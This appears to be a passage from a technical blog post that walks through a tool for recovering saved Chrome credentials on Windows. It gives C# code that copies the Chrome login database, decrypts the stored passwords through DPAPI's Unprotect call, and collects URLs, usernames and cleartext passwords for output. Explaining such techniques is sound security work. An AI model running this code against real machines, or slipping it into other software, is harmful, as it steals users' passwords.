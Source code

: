 ```cs

    File.Copy(databaseFilePath, tempDatabaseFilePath, true);

    connection = ChromeDatabaseConnection(tempDatabaseFilePath);
    ChromeDatabaseDecrypt(connection);

    //The process will maintain a handle to the temp database file despite database connection disposal. Garbage collection necessary to release thefile for deletion
    GC.Collect();
    GC.WaitForPendingFinalizers();
    File.Delete(tempDatabaseFilePath);
}
```

#### 3. Decrypt the password!

Now that I've got the URL and username in cleartext from the db, I just need to **unprotect** (decrypt) the password via the DPAPI. As per the [Microsoft Docs](https://docs.microsoft.com/en-us/dotnet/api/system.security.cryptography.protecteddata.unprotect?view=netframework-4.8) it's super simple! The **Unprotect()** function requires three agruments - the encrypted byte array, an optional entropy value (which in our case is not needed), and the "scope" in which the data was encrytpted (either CurrentUser or LocalMachine).

```cs
byte[] decryptedBytes = ProtectedData.Unprotect(password, null, DataProtectionScope.CurrentUser);
string decryptedPasswordString = Encoding.ASCII.GetString(decryptedBytes);
```

At this point, the DPAPI has been fully reverse engineered and [this paper](https://elie.net/static/files/reversing-dpapi-and-stealing-windows-secrets-offline/reversing-dpapi-and-stealing-windows-secrets-offline-paper.pdf) details the full cryptographic scheme. It also details some cool attacks against DPAPI that are worth checking out.

### And that's all there is to it!

I created a `BrowserLoginData` Object to be able to store the resultant decrypted credentials. The tool instanciates a new `BrowserLoginData` object for each decrypted set of logins and append them to a list for output to the console or a file.

```cs
BrowserLoginData loginData = new BrowserLoginData(formSubmitUrl, username, decryptedPasswordString, "Chrome");
ChromeLoginDataList.Add(loginData);
```

Here's what it looks like when these are printed to the console:
![Image](assets/img/browser-credentials/HBP_chrome_example.PNG)
